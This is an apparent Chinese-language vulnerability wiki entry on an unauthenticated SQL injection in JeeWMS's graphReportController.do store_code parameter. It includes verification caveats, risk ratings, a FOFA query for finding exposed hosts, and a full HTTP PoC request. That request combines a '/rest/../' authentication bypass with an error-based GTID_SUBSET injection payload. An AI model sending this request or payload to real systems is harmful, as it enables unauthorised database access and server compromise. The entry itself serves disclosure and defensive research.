

# JeeWMS graphReport store_code SQL 注入

## 条目说明

- 对象与具体问题：JeeWMS；graphReport store_code SQLi
- 版本、配置及部署条件：<2025.01.01；MySQL报错；configId=CWSYL
- 认证与权限前提：/rest/../鉴权绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题JJeeWMS错字；configId固定值是否必需需解释
- 与87 datagrid不同接口/参数，不能因同GTID载荷并稿
- 版本安全版、在野与CVE主源欠缺；FOFA残缺，结果仅图

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

JeeWMS graphReportController.do 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

v2025.01.01之前版本

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="url:userController.do?userOrgSelect&userId=" && "loginController.do?changeDefaultOrg"

POC/EXP：

```http
GET /rest/../graphReportController.do?datagridGraph&configId=CWSYL&store_code=1%27+AND+GTID_SUBSET%28CONCAT%280x7178627a71%2C%28SELECT+%28ELT%284503%3D4503%2C1%29%29%29%2C0x717a6a6b71%29%2C4503%29--+wnMN HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```





## 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
